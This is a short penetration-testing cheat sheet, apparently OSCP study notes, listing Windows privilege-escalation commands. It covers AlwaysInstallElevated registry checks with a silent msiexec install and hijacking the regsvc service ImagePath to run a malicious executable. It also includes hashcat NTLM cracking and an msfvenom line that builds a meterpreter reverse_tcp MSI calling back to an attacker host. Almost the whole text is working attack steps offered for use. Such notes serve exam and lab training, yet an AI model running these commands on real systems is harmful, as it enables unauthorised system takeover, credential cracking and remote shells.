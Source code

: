 

-gobuster dir -u http://<ip>:80 -w <wordlist>  
 
-accesschk64.exe -wvu "<file location>"  
Registry PrivEsc-AlwaysInstallElevated  
reg query HKLM\Software\Policies\Microsoft\Windows\Installer  
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
msiexec /quiet /qn /i <msi location>
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d <malicious_filename> /f
sc start regsvc

-hashcat -m 1000 <hash> <wordlist>

msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f msi -o <filename>.msi
 
x86_64-w64-mingw32-gcc <filename>.c -o <filename>.exe
 
 #### Service Escalation
Get-Acl-Path hklm\System\CurrentControlSet\Services\regsvc | fl ~ (NT Authority\Interactive means user has "FullControl" over key)  
[Get useradd.c](https://github.com/codingo/OSCP-2/blob/master/Windows/useradd.c)  
x86_64-w64-mingw32-gcc useradd.c -o mycode.exe  
reg add hklm\System\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\mycode.exe /f  
